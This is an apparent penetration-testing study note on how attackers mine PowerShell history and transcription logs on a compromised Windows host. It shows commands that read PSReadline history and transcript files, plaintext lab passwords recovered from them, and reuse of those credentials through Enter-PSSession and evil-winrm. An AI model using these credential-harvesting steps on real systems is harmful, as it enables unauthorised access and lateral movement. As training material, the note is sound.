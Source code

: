 
# PowerShell Logging & History
Unfortunately for us, finding juicy [sensitive-files](sensitive-files.md) on target machines is not as common as it used to be, and defensive techniques have improved a lot. However, one defensive technique requires increased logging surrounding command and operations executed on machines. Since [Windows](../../../computers/windows/README.md) only logs a small amount of data by default, IT staff commonly have to enable [powershell](../../../computers/windows/powershell.md) logging mechanisms on clients and servers in order to get as much insight into the environment as they can. This makes powershell *a vital resource* for attackers gathering information on a compromised machine.
## Types of PS Logging
### PowerShell Transcription
[_PowerShell Transcription_](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.host/start-transcript) is one of two important powershell logging mechanisms we can take advantage of. When enabled, PS Transcription is *equal to what a person would see if they were looking over the shoulder of the user* who is entering commands into PS. Because of this, it's also called "over-the-shoulder-transcription."

The information is stored in *transcript files* which are usually saved in the *home directories* of users, a central directory for all users, or in a network share.
### PowerShell Script Block Logging
[_PowerShell Script Block Logging_](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows?view=powershell-7.2) records commands and blocks of script code *as events* while they're executing. The amount of information collected is therefor *much broader* than for PS Transcription (because the full content of the code and commands are recorded as they're executing).
## Taking Advantage as an Attacker
> [!Note]
> For this section, assume we're connected to a victim machine via a [netcat](../../../cybersecurity/TTPs/exploitation/tools/netcat.md) [bind-shell](../../../cybersecurity/TTPs/exploitation/bind-shell.md) on port `44444`. We're connected again as the user `dave` and have launched a PowerShell session.
### How PowerShell History Works
You can view the PS history of a user with the `Get-History` cmdlet. However, most sysadmins will use `Clear-History` to clear their PS history. Fortunately for us, starting with PS v5, PS has a module called `PSReadline` included which can be used for line-editing and command history functions.

`Clear-History` *does not clear the history of `PSReadline`* meaning we can check if the current user has history saved from using `PSReadline`. To check, we'll use the `Get-PSReadlineOption` to see information about the module itself.  Since this is cmdlet (and PS is OOP), we can append a dot to it and then the method `HistorySavePath` to retrieve only one option from all the module's available options:
```powershell
PS C:\Users\dave> (Get-PSReadlineOption).HistorySavePath

C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
`HistorySavePath` has revealed a *history file* from `PSReadline`. Let's use `type` to output its content:
```powershell
PS C:\Users\dave> type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
...
$PSVersionTable
Register-SecretVault -Name pwmanager -ModuleName SecretManagement.keepass -VaultParameters $VaultParams
Set-Secret -Name "Server02 Admin PW" -Secret "paperEarMonitor33@" -Vault pwmanager
cd C:\
ls
cd C:\xampp
ls
type passwords.txt
Clear-History
Start-Transcript -Path "C:\Users\Public\Transcripts\transcript01.txt"
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
exit
Stop-Transcript
```
From the output we've learned:
- `dave` executed `Register-SecretVaule` with the module `SecretManagement.keepass` to create a new password manager database for KeePass
- `dave` used `Set-Secret` to create a secret, or entry, in the password manager with the name `Server02 Admin PW` and the password `paperEarMonitor33@` (probably creds for another system)
- `dave` used `Clear-History` in an attempt to clear the PS history
- `dave` used `Start-Transcript` to start *PowerShell Transcription*, the command also contains the path where the transcript file is stored'
- `dave` executed `Enter-PSSession` with the hostname of the local machine as an argument as well as a *PSCredential* object called `$cred` (which contains the username and password for `-Credential`)

Unfortunately, the one piece of info we're missing is the actual username and password in the PSCredential object `$cred`. If we examine the transcript file mentioned in the output though, we might be able to find them:
```powershell
PS C:\Users\dave> type C:\Users\Public\Transcripts\transcript01.txt

**********************
Windows PowerShell transcript start
Start time: 20220623081143
Username: CLIENTWK220\dave
RunAs User: CLIENTWK220\dave
Configuration Name: 
Machine: CLIENTWK220 (Microsoft Windows NT 10.0.22000.0)
Host Application: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Process ID: 10336
PSVersion: 5.1.22000.282
...
**********************
Transcript started, output file is C:\Users\Public\Transcripts\transcript01.txt
PS C:\Users\dave> $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
PS C:\Users\dave> $cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
PS C:\Users\dave> Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
PS C:\Users\dave> Stop-Transcript
**********************
Windows PowerShell transcript end
End time: 20220623081221
**********************
```
#### PSCredential Objects
For a user to create a [_PSCredential_](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.pscredential) object like in the transcript file above, the user needs to create a [_SecureString_](https://docs.microsoft.com/en-us/dotnet/api/system.security.securestring) first to store the password. Then they can give that to `System.Managemet.Automation.PSCredential()` as a parameter along with the username. The result is a PSCredential object which can be used in commands like `Enter-PSSession`.

Since `dave` was the account that created the original PSCred object, we can try to do the same thing by re-creating the commands from the transcript file (including `Enter-PSSession`). This should pop us into a new PS shell as the user `daveadmin`:
```powershell
PS C:\Users\dave> $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force

PS C:\Users\dave> $cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)

PS C:\Users\dave> Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
whoami
clientwk220\daveadmin
```
#### `Enter-PSSession`
[`Enter-PSSession`](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.2)creates a *remote PS session via [WinRM](../../../computers/windows/WinRM.md).* However, since we're connected to the host via our bind-shell and then WinRM, this causes *unexpected behavior*. For instance, even though `whoami` works, other commands do not.
#### Evil-WinRM
To avoid issues like this, we can use the [evil-winrm](../../../cybersecurity/TTPs/exploitation/tools/evil-winrm.md) tool which will give us a stable WinRM shell. This tool provides built-in functionality used for pen-testing like [pass-the-hash](../../../cybersecurity/TTPs/exploitation/pass-the-hash.md), in-memory loading, and file upload/download capability. Instead of executing this from the compromised box, we can execute it from our pen-testing machine:
```bash
kali@kali:~$ evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"

Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\daveadmin\Documents> whoami
clientwk220\daveadmin
*Evil-WinRM* PS C:\Users\daveadmin\Documents> cd C:\
*Evil-WinRM* PS C:\> dir


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         8/27/2024   3:22 AM                FileZilla
d-----          5/6/2022  10:24 PM                PerfLogs
d-r---         8/27/2024   3:20 AM                Program Files
d-r---          5/7/2022  12:40 AM                Program Files (x86)
d-----          7/4/2022   1:00 AM                tools
d-r---         8/21/2024   6:43 AM                Users
d-----         8/21/2024   6:47 AM                Windows
d-----         6/16/2022   1:17 PM                xampp
```

> [!Resources]
> - [_PowerShell Transcription_](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.host/start-transcript)
> - [_PowerShell Script Block Logging_](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows?view=powershell-7.2)
> - [_PSCredential_](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.pscredential)
> - [_SecureString_](https://docs.microsoft.com/en-us/dotnet/api/system.security.securestring) 
> - [_Enter-PSSession_](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.2)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.